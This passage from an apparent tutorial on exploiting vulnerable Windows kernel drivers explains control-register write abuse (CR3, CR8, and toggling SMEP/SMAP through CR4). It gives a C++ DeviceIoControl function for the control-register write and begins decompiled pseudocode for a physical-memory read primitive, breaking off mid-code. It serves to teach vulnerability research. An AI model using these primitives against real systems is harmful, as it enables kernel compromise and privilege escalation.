 At this point, you can see how easy it is to exploit vulnerable drivers. For the following vulnerabilities that are exploited similarly to the ones described in the previous section, I'll just be showing the disassembly or psuedocode with a basic description, along with the communication structures and a function demonstrating communication.

Being able to write to control registers is a very powerful vulnerability. For example, when we load `CR3` with a different physical address, we establish a whole new & different `VA -> PA` translation - we  are, in essence, in a new virtual address space. We can also see that we can change the `IRQL` (`writecr8`), though user-mode code is always executed at passive level, and so are most dispatch routines. We should not forget about `CR4`, with which we can toggle `SMEP/SMAP` (not reliable on newer versions of windows). With great power comes great responsibility, so this set of vulnerabilities should be used under extreme caution, for your own device's safety. The structure for this communication buffer is identical to the first one, but this time there is no data returned to us from the driver, and we have to populate each & every subobject with a value. The first being the control register we want to write to, and the second, the value to be written. For the sake of brevity, we will continue to use an array as our communication buffer.

```cpp
bool write_cr(uint64_t ControlRegister, DWORDLONG NewValue)
{
	uint64_t InputArg[2];
	*InputArg = ControlRegister;
	InputArg[1] = NewValue;

	DWORD bytes_returned;
	return DeviceIoControl(drv_handle, 2238576, &InputArg, 
    	sizeof(InputArg), &InputArg, sizeof(InputArg),
         &bytes_returned, nullptr);
}
```

You should get the hang of it now, so I'll leave the vulnerable driver at the end so you can reverse every vulnerability yourself since this process is becoming more repetitive than informative. But before I do that, we'll go over one last vulnerability.

## Read/Write Physical Memory

```cpp
mapped_buffer_1 = MmMapIoSpace(SystemBuffer->PhysicalAddress, SystemBuffer->Flags, 0i64);
  if ( mapped_buffer_1 )
  {
    return_buffer = (WCHAR *)SystemBuffer->Name;
    number_of_bytes = SystemBuffer->Flags;
    mapped_buffer = (int *)mapped_buffer_1;
    while ( number_of_bytes )
    {
      DataType = *(&SystemBuffer->Flags + 1);
      if ( DataType )
      {
        v35 = DataType - 1;
        if ( v35 )
        {
          if ( v35 == 1 )
          {
            value = *mapped_buffer++;
            *(_DWORD *)return_buffer = value;
            return_buffer += 2;
            number_of_bytes -= 4;
          }
        }
        else
        {
          word_value = *(_WORD *)mapped_buffer;
          mapped_buffer = (int *)((char *)mapped_buffer + 2);
          *return_buffer++ = word_value;
```